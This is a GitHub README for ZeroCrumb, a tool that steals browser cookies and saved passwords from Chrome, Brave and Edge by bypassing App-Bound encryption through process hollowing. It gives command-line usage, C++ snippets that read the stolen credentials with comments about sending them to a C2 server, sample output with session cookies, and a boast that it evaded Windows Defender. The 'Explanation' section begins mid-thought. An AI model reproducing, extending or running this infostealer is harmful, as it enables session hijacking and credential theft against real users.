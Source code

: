
# ZeroCrumb

Dumping App Bound Protected Credentials & Cookies Without Privileges.

## Explanation

After this, ZeroCrumb decrypts the cookies/passwords for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it.

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE> <DUMP_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2

Dump Types:
Cookies
Passwords
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** & **PasswordReader** classes:
```cpp
auto reader = new CookieReader(cookiesPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::cookies);
reader->populateCookies();

for (auto& cookie : reader->cookies) {
string name = cookie->name;
string site = cookie->site;
string path = cookie->path;
string cookieValue = cookie->cookie;
// dump to file, send back to C2, etc...
}
```

```cpp
// keep in mind passwords aren't encrypted using the app bound key (yet)
auto reader = new PasswordReader(passwordsPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::passwords);
reader->populatePasswords();

for (auto& password : reader->passwords) {

auto name = password->name;
auto site = password->site;
auto passwordValue = password->password;
// dump to file, send back to C2, etc...
}
```

## Depedencies
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0 Cookies
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies & passwords.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits




